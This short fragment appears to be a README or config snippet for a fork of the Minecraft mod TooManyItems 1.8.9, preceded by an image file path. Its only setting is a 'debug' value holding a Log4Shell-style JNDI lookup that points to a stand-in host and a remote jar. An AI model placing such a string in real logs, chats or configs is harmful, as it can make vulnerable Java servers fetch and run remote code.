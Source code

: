 # TOOMANYITEMS MOD 1.8.9 (Upgrated by me)
# github.com/HowardZHY/TooManyItems

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
